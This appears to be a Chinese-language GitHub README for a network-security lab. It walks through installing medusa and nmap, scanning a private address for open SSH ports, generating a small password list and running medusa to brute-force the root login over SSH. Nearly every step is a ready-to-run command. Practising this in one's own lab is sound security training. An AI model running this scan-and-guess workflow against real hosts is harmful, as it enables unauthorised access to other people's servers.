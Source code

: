 # network-security
网络攻防实验项目操作步骤：
* 1、下载medusa和libssh
```bash
 wget http://www.foofus.net/jmk/tools/medusa-2.0.tar.gz
 wget http://www.libssh2.org/download/libssh2-1.2.6.tar.gz
```
* 2、安装medusa和libssh
```bash
tar -zxvf libssh2-1.2.6.tar.gz -C /usr/src/  
cd /usr/src/libssh2-1.2.6/
./configure ; make ; make install
```
```bash
apt install medusa
//查看medusa是否安装成功 medusa
```
* 3、安装nmap
```bash
apt install nmap
//查看nmap安装成功否：nmap -v
```
* 4、分析我们需要的主机IP
```bash
nmap -sV -p22 -oG ssh 192.168.147.129
```
扫描此IP整个段开了22端口的机器，并且判断服务版本，保存到ssh文件中。
* 5、查看IP
```bash
cat ssh
```
* 6、将上面信息的IP提取出来进行整理到ssh1.txt
```bash
grep 22/open ssh |awk '{print $2}' >>ssh1.txt
```
* 7、查看获取到的IP
```bash
cat ssh1.txt
```
* 8、自己手动创建一个密码字典（可以自己去网上找更加好的字典。）以脚本的方式运行
```bash
vim mkpasswd.sh
```
```bash
#!/bin/bash
#
#测试字典
#
touch passwd.txt
echo $RANDOM >>passwd.txt   --$RANDOM 产生随机数重定向到passwd.txt
echo $RANDOM >>passwd.txt
echo $RANDOM >>passwd.txt
echo $RANDOM >>passwd.txt
echo $RANDOM >>passwd.txt
echo 123456 >>passwd.txt    --此处是我自己的真实密码，实验环境*0*。
echo $RANDOM >>passwd.txt
echo $RANDOM >>passwd.txt
echo $RANDOM >>passwd.txt
echo $RANDOM >>passwd.txt
echo $RANDOM >>passwd.txt
```
* 9、赋予mkpasswd.sh执行权限并执行
```bash
chmod +x mkpasswd.sh
./mkpasswd.sh 
```
* 10、自动生成我的测试字典 passwd.txt
```bash
cat passwd.txt
```
* 11、破解密码
```bash
medusa -H ssh1.txt -u root -P passwd.txt -M ssh
````
